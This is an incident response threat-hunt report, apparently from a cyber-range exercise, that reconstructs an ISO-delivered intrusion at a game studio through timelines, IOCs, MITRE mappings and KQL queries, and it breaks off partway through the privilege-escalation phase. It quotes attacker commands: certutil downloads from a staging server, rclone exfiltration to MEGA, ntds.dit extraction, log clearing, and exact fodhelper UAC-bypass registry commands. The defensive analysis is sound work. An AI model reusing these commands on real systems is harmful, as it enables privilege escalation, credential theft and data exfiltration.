> **Classification:** `CONFIDENTIAL — TLP:AMBER`
> **Report ID:** `IR-2026-0131-EF`
> **Analyst:** Károly Mathe
> **Organisation:** Log(n)Pacific 
> **Date:** 2026-01-31
> **Version:** 1.0

---

# 🛡️ Threat Hunt Report — EmberForge: Source Leak

---

## 📌 Executive Summary

EmberForge Studios, a game development subsidiary, suffered a targeted intrusion on 30 January 2026 that resulted in the full exfiltration of unreleased source code for the upcoming title *Neon Shadows*. A lead artist was socially engineered into executing a malicious ISO file disguised as a project review archive, granting the attacker an initial foothold. Within three hours, the attacker had escalated to domain administrator privileges, moved laterally across all three network endpoints, stolen the Active Directory credential database, and exfiltrated the entire game development directory to a cloud storage service under their control.

The breach was detected via external threat intelligence within 48 hours of the stolen data appearing on underground forums. Evidence chain integrity is assessed as **high** — the attacker attempted to clear Windows event logs on the Domain Controller, but Sysmon telemetry had already been forwarded to Microsoft Sentinel, preserving a complete forensic record.

---

### 🔑 Key Findings at a Glance

| Category | Detail |
|----------|--------|
| 🔴 **Risk Rating** | CRITICAL |
| ⏱️ **Attacker Dwell Time** | ~2.5 hours (21:24 → 23:52 UTC) |
| 🖥️ **Systems Compromised** | All 3 — Workstation, Server, Domain Controller |
| 👤 **Patient Zero** | `EMBERFORGE\lmartin` (Lisa Martin, Lead Artist) |
| 📦 **Data Exfiltrated** | `C:\GameDev` — full source code directory for *Neon Shadows* |
| 🔑 **Credentials Exposed** | `lmartin`, `Administrator` (EmberForge2024!), all domain hashes via NTDS.dit |
| 🌐 **Exfil Destination** | MEGA cloud storage — `jwilson.vhr@proton.me` |
| 🕵️ **Attacker C2** | `cdn.cloud-endpoint.net` → `104.21.30.237` |
| 📋 **Breach Notification Required** | **YES** — source code and credentials exfiltrated |

---

## 🎯 Hunt Objectives

- Reconstruct the full attack chain from initial access to exfiltration
- Identify all compromised systems, accounts, and data
- Scope the breach for legal and breach notification requirements
- Map all attacker behaviour to MITRE ATT&CK techniques
- Document evidence limitations and detection gaps
- Produce actionable remediation and detection recommendations

---

## 🧭 Scope & Environment

| Field                    | Detail                                                                                |
| ------------------------ | ------------------------------------------------------------------------------------- |
| **Platform**             | Microsoft Sentinel                                                                    |
| **Workspace / Table**    | `law-cyber-range` / `EmberForgeX_CL`                                                  |
| **Domain**               | `emberforge.local`                                                                    |
| **Workstation**          | `EC2AMAZ-B9GHHO6` — `10.1.173.145`                                                    |
| **Server**               | `EC2AMAZ-16V3AU4` — `10.1.57.66`                                                      |
| **Domain Controller**    | `EC2AMAZ-EEU3IA2` — `10.1.160.76`                                                     |
| **Data Sources**         | Sysmon (Operational) + Windows Security Events + Windows System Events                |
| **Investigation Window** | `2026-01-30 21:00 UTC → 2026-01-31 00:00 UTC`                                         |
| **Hunt Triggered By**    | External threat intelligence feed — stolen source code observed on underground forums |

---

## 📚 Table of Contents

- [📌 Executive Summary](#-executive-summary)
- [🧭 Scope & Environment](#-scope--environment)
- [⏱️ Attack Timeline](#️-attack-timeline)
- [👤 Attacker Profile](#-attacker-profile)
- [🔴 IOC Summary](#-ioc-summary)
- [🧬 MITRE ATT&CK Summary](#-mitre-attck-summary)
- [🔍 Attack Phase Analysis](#-attack-phase-analysis)
  - [Phase 1 — Initial Access](#phase-1--initial-access)
  - [Phase 2 — Execution & C2 Establishment](#phase-2--execution--c2-establishment)
  - [Phase 3 — Discovery](#phase-3--discovery)
  - [Phase 4 — Privilege Escalation](#phase-4--privilege-escalation)
  - [Phase 5 — Credential Access](#phase-5--credential-access)
  - [Phase 6 — Defense Evasion](#phase-6--defense-evasion)
  - [Phase 7 — Lateral Movement](#phase-7--lateral-movement)
  - [Phase 8 — Collection & Exfiltration](#phase-8--collection--exfiltration)
  - [Phase 9 — Persistence](#phase-9--persistence)
  - [Phase 10 — Domain Compromise](#phase-10--domain-compromise)
- [🚨 Detection Gaps & Recommendations](#-detection-gaps--recommendations)
- [🛠️ Remediation & Containment Checklist](#️-remediation--containment-checklist)
- [🧾 Final Assessment](#-final-assessment)
- [📎 Analyst Notes](#-analyst-notes)

---

## ⏱️ Attack Timeline

| Timestamp (UTC) | Host | Event | MITRE |
|----------------|------|-------|-------|
| 2026-01-30 21:24 | Workstation | `7zG.exe` extracts `EmberForge_Review` archive — ISO mounts as `D:\` | T1204.002 |
| 2026-01-30 21:27 | Workstation | `explorer.exe > rundll32.exe` loads `D:\review.dll,StartW` — malware executes | T1218.011 |
| 2026-01-30 21:27 | Workstation | Automated recon: `hostname`, `ipconfig`, `net user /domain`, `nltest` | T1087.002 |
| 2026-01-30 21:32 | Workstation | `rundll32.exe` injects into `notepad.exe` (first injection) | T1055 |
| 2026-01-30 21:36 | Workstation | Scheduled task `WindowsUpdate` created — `update.exe` on startup | T1053.005 |
| 2026-01-30 21:38 | Workstation | Registry modified for `fodhelper` UAC bypass — `DelegateExecute` set | T1548.002 |
| 2026-01-30 21:40 | Workstation | `update.exe` spawned as `NT AUTHORITY\SYSTEM` via fodhelper | T1548.002 |
| 2026-01-30 21:40 | Workstation | `update.exe` beacons to `cdn.cloud-endpoint.net` (104.21.30.237) | T1071.001 |
| 2026-01-30 21:40 | Workstation | `update.exe` resolves DC hostname — lateral movement preparation | T1018 |
| 2026-01-30 21:48 | Workstation | `lsass.dmp` created at `C:\Windows\System32\` via direct syscall | T1003.001 |
| 2026-01-30 21:56 | Workstation | `update.exe` injects into `spoolsv.exe` (SYSTEM — stable foothold) | T1055 |
| 2026-01-30 22:10 | Server | `certutil` downloads `AnyDesk.exe` from `sync.cloud-endpoint.net:8080` | T1105 |
| 2026-01-30 22:14 | Workstation | `update.exe` copies itself to Server via `\\10.1.57.66\C$\Users\Public\` | T1570 |
| 2026-01-30 22:17–22:27 | Server | `certutil` downloads `update.exe` — multiple retries before success | T1105 |
| 2026-01-30 22:19 | Workstation | `AnyDesk.exe --control` launched — unattended remote access active | T1219 |
| 2026-01-30 22:38–22:41 | Workstation | `AnyDesk system.conf` modified — silent mode, password hash set | T1219 |
| 2026-01-30 22:51 | Workstation | `net share tools=C:\Users\Public /grant:everyone,full` — tool staging share | T1021.002 |
| 2026-01-30 22:54 | Workstation | Firewall rule `SMB` added — port 445 inbound allowed | T1562.004 |
| 2026-01-30 23:06–23:12 | Server | `rclone` exfiltrates `C:\GameDev` to MEGA (`jwilson.vhr@proton.me`) | T1567.002 |
| 2026-01-30 23:09 | Server | `AnyDesk` silently installed — `--start-with-win --silent` | T1219 |
| 2026-01-30 23:11 | Server | `Compress-Archive C:\GameDev → gamedev.zip` | T1560.001 |
| 2026-01-30 23:34–23:35 | DC | VSS shadow copy created → `ntds.dit` extracted → shadow deleted | T1003.003 |
| 2026-01-30 23:38 | DC | Backdoor account `svc_backup` created — added to Domain Admins | T1136.002 |
| 2026-01-30 23:45 | DC | `net use Z: \\10.1.173.145\tools` — `Administrator:EmberForge2024!` exposed | T1552.001 |
| 2026-01-30 23:50–23:52 | DC | `wevtutil cl Security` and `wevtutil cl System` — logs cleared | T1070.001 |

---



*Three hosts in scope — workstation activity (6,681 events) confirms it as ground zero; Server (2,803) and DC (1,474) confirm lateral movement.*

---

## 👤 Attacker Profile

| Attribute | Detail |
|-----------|--------|
| **Email / Account** | `jwilson.vhr@proton.me` |
| **Cloud Storage** | MEGA — folder `mega:exfil` |
| **MEGA Password** | `Summer2024!` (exposed in command line) |
| **C2 Infrastructure** | `cdn.cloud-endpoint.net` → `104.21.30.237` / `172.67.174.46` |
| **Staging Server** | `http://sync.cloud-endpoint.net:8080/` |
| **Tools Deployed** | `update.exe` (RAT), `rclone.exe`, `AnyDesk.exe`, `review.dll` |
| **Execution Framework** | Impacket (random 8-char service names, `%COMSPEC%` wrapper pattern) |
| **Targeting** | **Targeted** — ISO named `EmberForge_Review`, delivered to Lead Artist specifically |
| **Sophistication** | Medium-High — LotL techniques, direct syscalls, VSS abuse, ISO MotW bypass |

### 🔍 OPSEC Failures Observed

| Failure | Where Found | Severity |
|---------|-------------|---------|
| MEGA credentials in plaintext command line | `CommandLine_s` — rclone execution | 🔴 Critical |
| Attacker email `jwilson.vhr@proton.me` | rclone `--mega-user` flag | 🔴 Critical |
| MEGA password `Summer2024!` | rclone `--mega-pass` flag | 🔴 Critical |
| `svc_backup` password `P@ssw0rd123!` | `net user` command line | 🔴 Critical |
| `Administrator` password `EmberForge2024!` | `net use` command line on DC | 🔴 Critical |
| Sysmon logs not cleared before exfiltration | Logs intact in Sentinel | 🟠 High |

---

## 🔴 IOC Summary

### 🌐 Network Indicators

| Type | Indicator | Context | Action |
|------|-----------|---------|--------|
| Domain | `cdn.cloud-endpoint.net` | C2 beaconing endpoint | **BLOCK** |
| Domain | `sync.cloud-endpoint.net` | Attacker tool staging server | **BLOCK** |
| Domain | `*.cloud-endpoint.net` | Full infrastructure range | **BLOCK** |
| Domain | `g.api.mega.co.nz` / `bt5.api.mega.co.nz` | MEGA exfil endpoint | **REPORT TO MEGA** |
| IP | `104.21.30.237` | C2 primary (Cloudflare-proxied) | **BLOCK** |
| IP | `172.67.174.46` | C2 secondary (Cloudflare-proxied) | **BLOCK** |
| IP | `66.203.125.15` | MEGA upload destination | **BLOCK** |
| URL | `http://sync.cloud-endpoint.net:8080/update.exe` | RAT download URL | **BLOCK** |
| URL | `http://sync.cloud-endpoint.net:8080/AnyDesk.exe` | AnyDesk download URL | **BLOCK** |
| Port | `443` outbound to MEGA | rclone exfil channel | **MONITOR** |

### 📁 File Indicators

| Filename | Location | Role | SHA256 |
|----------|----------|------|--------|
| `review.dll` | `D:\` | Initial payload (malicious DLL) | *Obtain from forensic image* |
| `update.exe` | `C:\Users\Public\update.exe` | Primary RAT | `44959138B2C9B295D7D558E229F0B7495A5AF446AB0FE472B8DC982B070E5A7B` |
| `rclone.exe` | `C:\Users\Public\rclone.exe` | Exfiltration tool | `44959138...` (same binary) |
| `rclone.conf` | `C:\Users\Public\rclone.conf` | MEGA credentials config | N/A |
| `AnyDesk.exe` | `C:\ProgramData\AnyDesk\AnyDesk.exe` | Persistent remote access | *Obtain from forensic image* |
| `lsass.dmp` | `C:\Windows\System32\lsass.dmp` | LSASS credential dump | N/A |
| `gamedev.zip` | `C:\Users\Public\gamedev.zip` | Exfiltration archive | N/A |
| `AnyDesk.lnk` | `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\` | AnyDesk autostart | N/A |

### 👤 Account Indicators

| Account | Type | Required Action |
|---------|------|----------------|
| `EMBERFORGE\lmartin` | Compromised user — patient zero | **Reset password immediately** |
| `svc_backup` | Attacker backdoor — Domain Admin | **Delete immediately** |
| `EMBERFORGE\Administrator` | Password exposed in logs | **Reset password immediately** |
| All domain accounts | NTDS.dit exfiltrated — all hashes stolen | **Full domain password reset** |
| `krbtgt` | Kerberos signing account — reset required | **Reset TWICE (24hrs apart)** |

---

## 🧬 MITRE ATT&CK Summary

| Phase | Technique | MITRE ID | Priority |
|-------|-----------|----------|----------|
| Initial Access | Spearphishing / User Execution: Malicious File | T1204.002 | 🔴 Critical |
| Initial Access | Subvert Trust Controls: Mark-of-the-Web Bypass | T1553.005 | 🔴 Critical |
| Execution | System Binary Proxy Execution: Rundll32 | T1218.011 | 🔴 Critical |
| Execution | Command and Scripting: PowerShell | T1059.001 | 🟠 High |
| Execution | System Services: Service Execution (Impacket) | T1569.002 | 🔴 Critical |
| Persistence | Scheduled Task: WindowsUpdate | T1053.005 | 🔴 Critical |
| Persistence | Boot Autostart: Startup Folder (AnyDesk.lnk) | T1547.001 | 🟠 High |
| Persistence | Create Account: Domain Account (svc_backup) | T1136.002 | 🔴 Critical |
| Persistence | Remote Access Software: AnyDesk | T1219 | 🔴 Critical |
| Privilege Escalation | Abuse Elevation Control: Bypass UAC via fodhelper | T1548.002 | 🔴 Critical |
| Privilege Escalation | Process Injection: spoolsv.exe (SYSTEM) | T1055 | 🔴 Critical |
| Defense Evasion | Masquerading: update.exe / WindowsUpdate task | T1036.005 | 🟠 High |
| Defense Evasion | Indicator Removal: Clear Windows Event Logs | T1070.001 | 🟠 High |
| Defense Evasion | Process Injection: rundll32 → notepad.exe | T1055 | 🟠 High |
| Defense Evasion | Ingress Tool Transfer via certutil (LOLBin) | T1105 | 🟠 High |
| Credential Access | OS Credential Dumping: LSASS Memory | T1003.001 | 🔴 Critical |
| Credential Access | OS Credential Dumping: NTDS | T1003.003 | 🔴 Critical |
| Credential Access | Unsecured Credentials in Command Line | T1552.001 | 🔴 Critical |
| Discovery | Account Discovery: Domain Account | T1087.002 | 🟡 Medium |
| Discovery | Permission Groups Discovery: Domain Groups | T1069.002 | 🟡 Medium |
| Discovery | Remote System Discovery: nltest | T1018 | 🟡 Medium |
| Lateral Movement | Remote Services: SMB/Windows Admin Shares | T1021.002 | 🔴 Critical |
| Lateral Movement | Lateral Tool Transfer via C$ admin share | T1570 | 🔴 Critical |
| Collection | Archive Collected Data: Compress-Archive | T1560.001 | 🟠 High |
| Exfiltration | Exfiltration to Cloud Storage: MEGA via rclone | T1567.002 | 🔴 Critical |
| Command & Control | Application Layer Protocol: HTTPS beaconing | T1071.001 | 🔴 Critical |

---

## 🔍 Attack Phase Analysis

---



*5-minute bin timechart — activity spikes at 21:27 (initial execution) and 22:10–23:12 (lateral movement + exfiltration) are clearly visible.*

---

### Phase 1 — Initial Access

**MITRE: T1204.002, T1553.005**

Lisa Martin, Lead Artist at EmberForge Studios, received a file named to appeal directly to her role — a project review archive. The file was delivered as an ISO disk image, a format specifically chosen to bypass Windows' Mark-of-the-Web (MotW) protection. Files downloaded from the internet are tagged with MotW, which triggers SmartScreen warnings on execution. Files extracted from a mounted ISO do not inherit this tag, allowing silent execution with no security prompt shown to the user.

Upon opening the archive via Microsoft Edge, the browser's built-in unzipper (`unzip.mojom.Unzipper`) processed the download, followed by `7zG.exe` extracting the contents to `C:\Users\lmartin.EMBERFORGE\Downloads\EmberForge_Review\`. The ISO mounted as drive `D:\`, and when Lisa interacted with the extracted file, Windows Explorer (`explorer.exe`) invoked `rundll32.exe` to load the malicious DLL.

**Evidence — Activity on Workstation:**

```kql
EmberForgeX_CL
| where EventCode_s == "1"
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where Computer contains "B9GHHO6"
| where user_s contains "martin"
| project UtcTime_s, User_s, Image_s, CommandLine_s, ParentImage_s, ParentCommandLine_s
| sort by UtcTime_s asc
```



| Field | Value |
|-------|-------|
| **Host** | `EC2AMAZ-B9GHHO6.emberforge.local` |
| **Timestamp** | `2026-01-30 21:24:04 UTC` |
| **Compromised User** | `EMBERFORGE\lmartin` |
| **Delivery Vector** | ISO disk image — `D:\` (Mark-of-the-Web bypass) |
| **Extraction Tool** | `C:\Program Files\7-Zip\7zG.exe` |
| **Extraction Target** | `C:\Users\lmartin.EMBERFORGE\Downloads\EmberForge_Review\` |
| **Malicious File** | `review.dll` |
| **Execution Chain** | `explorer.exe > rundll32.exe > D:\review.dll,StartW` |





> **Why it matters:** The ISO delivery method is a deliberate, targeted technique to evade SmartScreen. The file was named `EmberForge_Review` — crafted to be opened without hesitation by a Lead Artist. This was not opportunistic.

---

### Phase 2 — Execution & C2 Establishment

**MITRE: T1218.011, T1059.001, T1071.001, T1055**

Within minutes of `review.dll` loading, the malware began executing reconnaissance commands as children of `rundll32.exe`. The DLL functioned as a full Remote Access Trojan — not just a loader — spawning system commands directly. At `21:32`, `rundll32.exe` performed its first process injection, hiding malicious code inside `notepad.exe`. At `21:40`, after privilege escalation (Phase 4), `update.exe` established its first beacon to `cdn.cloud-endpoint.net`.

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:26) .. datetime(2026-01-30 21:45))
| where Computer contains "B9GHHO6"
| where EventCode_s == "1"
| where User_s contains "lmartin"
| project UtcTime_s, Image_s, CommandLine_s, ParentImage_s, ParentCommandLine_s
| sort by UtcTime_s asc
```

**Injection chain (EventCode 8):**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "8"
| extend SourceImage = extract("SourceImage'>([^<]+)", 1, Raw_s)
| extend TargetImage = extract("TargetImage'>([^<]+)", 1, Raw_s)
| project UtcTime_s, Computer, SourceImage, TargetImage
| sort by UtcTime_s asc
```



| Injection | Timestamp | Source | Target | Purpose |
|-----------|-----------|--------|--------|---------|
| First | 21:32 | `rundll32.exe` | `notepad.exe` | Immediate concealment in trusted process |
| Second | 21:56 | `update.exe` | `spoolsv.exe (SYSTEM)` | Long-term stability in always-running service |

**C2 beaconing (DNS + Network correlation):**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:40) .. datetime(2026-01-30 21:45))
| where Computer contains "B9GHHO6"
| where EventCode_s in ("22", "3")
| where Image_s contains "update"
| project UtcTime_s, EventCode_s, QueryName_s, QueryResults_s, DestinationIp_s
| sort by UtcTime_s asc
```




| Field | Value |
|-------|-------|


| **C2 Domain** | `cdn.cloud-endpoint.net` |
| **Resolved IPs** | `104.21.30.237` (primary), `172.67.174.46` (secondary) |
| **Protocol** | HTTPS (port 443) — encrypted, blends with normal web traffic |
| **Beacon Pattern** | Regular intervals — automated C2 check-in |
| **Infrastructure** | Cloudflare-proxied — real server IP obscured |



> **Why it matters:** Traffic to `cdn.cloud-endpoint.net` mimics legitimate CDN traffic. Using Cloudflare proxying means blocking the IP alone is insufficient — the domain must be blocked. The `update.exe` immediately queried the DC hostname after C2 establishment, indicating automated lateral movement preparation.

---

### Phase 3 — Discovery

**MITRE: T1087.002, T1069.002, T1018**

Within seconds of `review.dll` executing, five automated reconnaissance commands fired in rapid succession — all as child processes of `rundll32.exe`. This is automated behaviour built into the malware, not manual attacker input. The complete domain picture was mapped in under 30 seconds.

```
rundll32.exe → hostname                              → "I'm on EC2AMAZ-B9GHHO6"
rundll32.exe → ipconfig /all                         → "Network is 10.1.x.x"  
rundll32.exe → net user /domain                      → "Here are all domain accounts"
rundll32.exe → net group "Domain Admins" /domain     → "Admins are: Administrator..."
rundll32.exe → nltest /dclist:emberforge.local       → "DC is at 10.1.160.76"
```

| Command | MITRE | Intelligence Gained |
|---------|-------|-------------------|
| `hostname` | T1082 | Current machine identity |
| `ipconfig /all` | T1016 | Full network topology |
| `net user /domain` | T1087.002 | All domain user accounts |
| `net group "Domain Admins" /domain` | T1069.002 | Highest privilege accounts |
| `nltest /dclist:emberforge.local` | T1018 | Domain Controller location |

> **Why it matters:** The attacker knew the domain topology within minutes of first execution. `nltest` directly revealed the DC IP (`10.1.160.76`), enabling targeted lateral movement to the most critical asset without any manual reconnaissance.

---

### Phase 4 — Privilege Escalation

**MITRE: T1548.002, T1055**

The malware needed to elevate from `lmartin` (standard user) to `NT AUTHORITY\SYSTEM` to execute high-privilege operations. It achieved this via the well-documented `fodhelper.exe` UAC bypass technique — manipulating a registry key that `fodhelper.exe` auto-reads, exploiting its trusted auto-elevation behaviour to silently execute `update.exe` as SYSTEM without any UAC prompt appearing to the user.

**Registry modification sequence:**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where Computer contains "B9GHHO6"
| where EventCode_s == "13"
| where TargetObject_s contains "ms-settings"
| project UtcTime_s, Image_s, TargetObject_s, Details_s
| sort by UtcTime_s asc
```

| Step | Timestamp | Action |
|------|-----------|--------|
| 1 | 21:38:07 | `reg add HKCU\Software\Classes\ms-settings\shell\open\command /ve /d C:\Users\Public\update.exe` |
| 2 | 21:38:33 | `reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /d ""` |
| 3 | 21:38:50 | `fodhelper.exe` runs — reads registry — auto-elevates `update.exe` |
| 4 | 21:40:24 | `update.exe` spawned as `NT AUTHORITY\SYSTEM` — full privileges |

> `DelegateExecute` being present — even empty — signals Windows to treat the command as a COM object requiring elevation. `fodhelper.exe` sees this flag and silently launches whatever is in the same key without any user prompt.

**Stable SYSTEM injection (EventCode 8):**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
